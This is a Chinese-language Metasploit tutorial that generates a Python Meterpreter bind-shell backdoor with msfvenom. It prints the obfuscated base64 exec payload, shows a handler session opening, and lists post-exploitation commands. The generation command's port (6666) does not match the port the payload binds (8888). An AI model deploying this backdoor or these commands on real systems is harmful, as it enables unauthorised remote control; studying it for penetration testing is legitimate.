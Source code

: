 # Meterpreter of Metasploit教程

## 0x01 Backdoor生成

### meterpreter of python
使用MSF套件中msfvenom进行后门载荷的生成
>-p 选择payload
>lport 监听端口
>-o 载荷生成位置
```
msfvenom -p  python/meterpreter/bind_tcp lport=6666 -o /tmp/re111
```
生成python文件如下:
```
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHpsaWIsYmFzZTY0LHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw4ODg4KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK')[0]))
```

## 0x02 漏洞利用（Exploit）
使用MSF套件中msfconsole，启动
```
msfconsole
```
### 通用的Backdoor会话管理模块

```
msf6> use exploit/multi/handler
#设置payload
msf6 exploit(multi/handler) > set payload python/meterpreter/bind_tcp
#设置RHOST（目标地址）
msf6 exploit(multi/handler) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
#设置LPORT（目标后门服务监听端口）
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
#执行
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 127.0.0.1:8888
[*] Sending stage (39800 bytes) to 127.0.0.1
[*] Meterpreter session 3 opened (127.0.0.1:7812 -> 127.0.0.1:8888 ) at 2022-02-16 11:26:51 +0800

meterpreter >
```
## 0x03 Meterpreter使用

### 基本命令
```
background   # 将当前会话放置后台
sessions   # sessions –h 查看帮助
sessions -i <ID值>  #进入会话   -k  杀死会话
bgrun / run   # 执行已有的模块，输入run后按两下tab，列出已有的脚本
info   # 查看已有模块信息
getuid   # 查看当前用户身份
getprivs  # 查看当前用户具备的权限
getpid   # 获取当前进程ID(PID)
sysinfo   # 查看目标机系统信息
irb   # 开启ruby终端
ps   # 查看正在运行的进程    
kill <PID值> # 杀死指定PID进程
idletime     # 查看目标机闲置时间
reboot / shutdown    # 重启/关机
shell    # 进入目标机cmd shell
```

### 上传/下载
upload
```
Usage: upload [options] src1 src2 src3 ... destination
-r  Upload recursively
```
downlaod
```
Usage: download [options] src1 src2 src3 ... destination

    -a   Enable adaptive download buffer size
    -b   Set the initial block size for the download
    -c   Resume getting a partially-downloaded file
    -h   Help banner
    -l   Set the limit of retries (0 unlimits)
    -r   Download recursively
    -t   Timestamp downloaded files
```

## Ref
- https://xz.aliyun.com/t/6400
